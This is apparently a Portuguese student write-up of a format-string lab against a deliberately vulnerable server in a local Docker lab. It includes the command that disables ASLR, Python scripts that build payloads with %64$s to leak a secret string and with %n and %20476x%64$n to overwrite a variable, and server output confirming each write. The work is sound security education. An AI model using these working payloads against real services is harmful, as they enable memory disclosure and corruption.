


# Semana #6

## Format-String

### Tarefa 0
Antes de comecar o desenvolvimento deste laboratório desligamos a randomização de endereços com o seguinte comando, para que fosse possível descobrir a localização dos endereços do programa:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

Compilamos o código e fizemos a instalação como indicados, aparecendo o seguinte warning:


Depois, corremos o comando `docker-compose up` para iniciar os containers e, de seguida, os comandos `docker ps` e `docksh <id>` 


iniciando assim uma shell nesse container. 


# Tarefa 1

Inicialmente, corremos `$ echo hello | nc 10.9.0.5 9090`, enviando uma mensagem benigna para os servidor e foram impressas as mensagens esperadas no terminal. 


De seguida, o objetivo era fornecer um dado input ao servidor, de tal forma que o programa crashasse ao tentar imprimi-lo na função `myprintf()`. Desta forma, guardamos num ficheiro test.txt o seguinte conteúdo: 

<br>

E corremos:

```bash
$ cat test.txt | nc 10.9.0.5 9090
```

Como não observamos a mensagem `Returned properly`, concluímos que o programa crashou. Mas é de notar, como dito no enunciado, que o programa do **servidor** não crashou - na verdade crashou o programa **`format`** que corre num processo filho gerado pelo processo do servidor.

<br>

Apenas fornecemos `'%s'*10` para que o programa tentasse ler endereços de memória inválidos e crashasse, tal como esperado. 


### Tarefa 2

#### A)
Foram necessários 64 `%x` para conseguirmos visualizar o conteúdo que demos como input na stack, em hexadecimal. O conteúdo do ficheiro `task2a.txt`foi:

```GGGG%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x```

Sabemos que `GGGG` corresponde a `47474747` em hexadecimal.
Corremos o seguinte comando:
```bash
$ cat task2a.txt | nc 10.9.0.5 9090
```
E pudemos verificar no output do servidor que o conteúdo do ficheiro foi impresso na stack, como esperado.

<br>

#### B)

A partir do *output* do servidor, nós sabemos que o endereço da mensagem secreta é:
<br>

Também sabemos que ao enviar `%s`, a função `printf` vai tentar ler uma string de um endereço. Na tarefa anterior, aprendemos que o numero de `%x` necessários para chegar ao inicio da stack era 64, portanto, nós podemos especificar qual é o endereço que queremos ler, adicionando um `offset` de 64 entre `%` e `s`. Assim, o nosso programa vai ler uma string do endereço escrito na 64ª posição da stack, que é o endereço da mensagem secreta. 

Para obter o valor da mensagem secreta guardada na área da heap, criámos um script de python para criar o ficheiro `task2b.txt` com o seguinte conteúdo:
```python
tmp = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

with open('task2b.txt', 'wb') as f:
  f.write(tmp)
```

Corremos o comando:
```bash
$ cat task2b.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro como input para o servidor. Analisámos o *output* do servidor e concluímos que a mensagem secreta, tal como é apresentada na seguinte imagem, é: `A secret message`.
 
<br>


### Tarefa 3

#### A)
A partir do *output* do servidor, nós sabemos que o endereço da mensagem secreta é:
<br>

Para mudar o valor do endereço da variável *target* que está definida no programa do servidor, criámos o seguinte script de python para criar o ficheiro `task3a.txt` com o seguinte conteúdo:

```python
tmp = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

with open('task3a.txt', 'wb') as f:
  f.write(tmp)
```

Tal como na tarefa anterior, nós procuramos pelo endereço da variável *target* no *output* do servidor. Desta vez, adicionámos um `%n`. Este `format specifier` escreve o tamanho do input no endereço especificado em `%n`, neste caso, no endereço `0x080e5068`.

O número de bytes escritos até ao momento é 4 devido ao endereço, por isso, este número será o número guardado no endereço da variável.

Corremos o comando:
```bash
$ cat task3a.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro `task3a.txt` como input para o servidor.


Ao examinar o *output* do servidor, podemos reparar que o valor da variável *target* foi, com sucesso, alterado para `0x00000004`, como esperado.

<br>


#### B)

Para mudar o conteúdo para um valor específico de 0x5000, construímos o nosso script da mesma forma com algumas alterações. Criamos o seguinte script em Python para construir o nosso ficheiro, chamado badfile:

```python
import sys

conteudo = (0x080e5068).to_bytes(4, byteorder='little') + ("%20476x%64$n").encode('latin-1')

# Escrever o conteúdo em badfile
with open('badfile', 'wb') as f:
  f.write(conteudo)
```

Sabemos que 0x5000 é 20480 em decimal, mas não podemos simplesmente escrever 20480 bytes no ficheiro, pois sabemos da tarefa anterior que o servidor aceita no máximo 1500 bytes de nós.

Primeiro, escrevemos os 4 bytes para o endereço.

Depois, os restantes 20476 bytes serão preenchidos usando o especificador de formato %x com uma largura fixa. Com %[largura]x -> %20476x, o programa irá ler 20476 bytes e tentará imprimi-los.

Por fim, o especificador %n irá impedi-lo de imprimir esses bytes, mas ainda os contará, então o valor armazenado no endereço será o valor que queremos.

```
Starting server-10.9.0.5 ... done
Starting server-10.9.0.6 ... done
Attaching to server-10.9.0.5, server-10.9.0.6
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd720
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 16 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd648
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | (*)The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)`
```

Depois de examinar a saída do servidor, podemos ver que o valor da variável alvo (após) foi alterado com sucesso para 0x00005000.

(*) - Na saída do servidor, porque %n imprime espaços vazios, a saída imprimiu muitos espaços vazios. Isto foi removido para concisão.